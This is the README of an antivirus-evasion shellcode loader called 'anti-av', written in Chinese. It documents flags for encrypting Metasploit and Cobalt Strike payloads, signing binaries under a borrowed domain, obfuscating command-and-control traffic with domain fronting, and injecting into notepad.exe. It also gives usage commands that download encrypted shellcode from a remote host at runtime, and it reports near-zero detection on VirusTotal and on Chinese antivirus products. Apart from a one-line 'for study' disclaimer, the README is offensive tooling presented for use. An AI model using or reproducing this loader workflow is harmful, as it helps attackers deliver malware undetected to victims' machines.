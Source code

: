 # ANTI-AV



## 免责

本工具学习使用，溯源到b1gcat肯定不是我。



## 描述
*shellcode*免杀加载，*payload*支持**msf** (-f raw)和**cs**(payload raw)



## 安装

### Requirement

```bash
1、建议使用Mac或linux环境
2、安装交叉编译 mingw64
3、安装签名 openssl、osslsigncode
```



### anti-av

```bash
git clone https://github.com/b1gcat/anti-av.git
go build

Usage of ./anti-av:
  -domain string //签名binary时使用该域名。如果唯恐
        domain to be signed (default "baidu.com")
        
  -e    payload to be encrypted //布尔类型和-sc一起使用，对-sc指定的shellcode文件加密
  
  -ho string //远程加载shellcode时，通过隐藏流量（支持域前置）或混淆host达到干扰蓝队流量研判。
        host obfuscator (default "wwww.baidu.com")
        
  -l string //支持加载shellcode方式
        loader: binary (default "binary")
        
  -os string //支持的操作系统
        OS: windows,linux (default "windows")
        
  -sc string //shellcode的文件或url地址。如果是url，则在运行时访问下载。
        encrypt payload by anti-av: support 'msfvenom -f raw' OR 'cs raw' OR remote url loading (default "payload.e")
  -inject //布尔类型，运行时shellcode注入notepad进程。
        inject payload to notepad.exe       

```



## 使用方案



| 形态              | 说明                    | 生成命令                                                     |
| ----------------- | ----------------------- | ------------------------------------------------------------ |
| 自解密shellcode   | 无                      | ./anti-av -sc ~/Desktop/payload.bin                          |
| 远程加载shellcode | 无                      | 1、./anti-av  -e -sc ~/Desktop/payload.bin    #加密shellcode<br />2、上传payload.e到公共下载服务<br />3、./anti-av -sc http://x.x.x.x/payload.e         #制作加载器 |
| 注入进程          | 会强制注入到notepad.exe | ./anti-av -sc ~/Desktop/payload.bin -inject 或<br />./anti-av -sc http://x.x.x.x/payload.e  -inject |



## 注意

* cs生成raw格式64位 payload，需要勾选x64

  



## 测试

| VT   | 火绒 | 360安全卫士 | 腾讯管家 |
| ---- | ---- | ----------- | -------- |
| 1/68 | √    | √           | √        |

